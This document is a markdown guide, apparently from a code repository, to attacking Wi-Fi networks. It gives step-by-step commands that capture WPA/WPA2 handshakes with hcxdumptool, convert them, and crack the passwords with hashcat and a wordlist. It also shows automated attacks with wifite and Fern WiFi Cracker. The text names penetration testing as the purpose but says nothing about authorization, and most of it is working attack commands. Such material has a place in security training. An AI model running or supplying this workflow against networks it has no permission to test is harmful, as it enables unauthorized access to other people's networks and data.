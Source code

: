 # Wi-Fi Attacks and Password Cracking Guide

This document provides a practical guide to performing wireless security
assessments, capturing WPA/WPA2 handshakes, preparing captures for
cracking, and using different tools to crack Wi-Fi passwords.

------------------------------------------------------------------------

## 1. Performing Wireless Attacks

Wireless attacks are commonly used in penetration testing to evaluate
the security of Wi-Fi networks. Typical steps include: 1. Enabling
monitor mode on a wireless adapter. 2. Capturing WPA/WPA2 handshakes
during authentication. 3. Preparing the captured handshakes for
cracking. 4. Attempting password recovery with different tools.

Tools used: `aircrack-ng`, `hcxtools`, `hashcat`, `wifite`,
`fern-wifi-cracker`.

------------------------------------------------------------------------

## 2. Capturing Handshakes with hcxdumptool

`hcxdumptool` is part of **hcxtools** and is more advanced than
`airodump-ng` for capturing WPA/WPA2 handshakes.

### Install hcxdumptool

``` bash
sudo apt install hcxdumptool hcxtools
```

### Capture Handshakes

Put your adapter in monitor mode and capture handshakes:

``` bash
sudo hcxdumptool -i wlan0mon -o capture.pcapng --active_beacon --enable_status=1
```

-   `-i wlan0mon`: Your monitor mode interface.
-   `-o capture.pcapng`: Output file for captured packets.
-   `--active_beacon`: Actively send beacons to clients.
-   `--enable_status=1`: Display status information.

Stop capturing once you have enough handshakes.

------------------------------------------------------------------------

## 3. Preparing Captured Handshakes for Cracking

`hcxpcapngtool` converts `.pcapng` files into a format suitable for
cracking with hashcat.

``` bash
hcxpcapngtool -o handshake.22000 -E wordlist.txt capture.pcapng
```

-   `-o handshake.22000`: Output file in hashcat format.
-   `-E wordlist.txt`: Extracts potential wordlist candidates from
    ESSIDs.

------------------------------------------------------------------------

## 4. Cracking Wi-Fi Passwords with Hashcat

`hashcat` is a GPU-accelerated password recovery tool.

### Example Command

``` bash
hashcat -m 22000 handshake.22000 /usr/share/wordlists/rockyou.txt --force
```

-   `-m 22000`: WPA/WPA2 hash mode.
-   `handshake.22000`: Input handshake file.
-   `rockyou.txt`: Example wordlist.

Hashcat will attempt to crack the key; if successful, it will display:

    <network-SSID>:<password>

------------------------------------------------------------------------

## 5. Automated Wi-Fi Cracking with Wifite

`wifite` automates the entire Wi-Fi cracking workflow.

### Install Wifite

``` bash
sudo apt install wifite
```

### Run Wifite

``` bash
sudo wifite
```

-   Automatically scans networks.
-   Captures handshakes.
-   Runs cracking attempts using available wordlists and tools.

This tool is useful for rapid assessments.

------------------------------------------------------------------------

## 6. Cracking Wi-Fi Passwords with Fern WiFi Cracker

**Fern WiFi Cracker** provides a GUI for Wi-Fi attacks.

### Install Fern

``` bash
sudo apt install fern-wifi-cracker
```

### Usage

1.  Launch: `sudo fern-wifi-cracker`
2.  Select your wireless interface.
3.  Scan for networks.
4.  Select a target network.
5.  Fern captures handshakes and attempts to crack them with internal or
    external wordlists.

------------------------------------------------------------------------

## 7. Best Practices

-   Always use a supported adapter (Atheros/Alfa recommended).
-   Capture complete WPA/WPA2 four-way handshakes.
-   Use strong, targeted wordlists.
-   Prefer GPU-accelerated cracking with hashcat for speed.
-   Automate with wifite or fern for convenience.

------------------------------------------------------------------------

## Summary

1.  Use `hcxdumptool` to capture handshakes.
2.  Convert with `hcxpcapngtool` for hashcat.
3.  Crack with `hashcat` using strong wordlists.
4.  Automate with `wifite` or use GUI via `fern-wifi-cracker`.

✅ This workflow provides multiple approaches for Wi-Fi penetration
testing and password recovery.
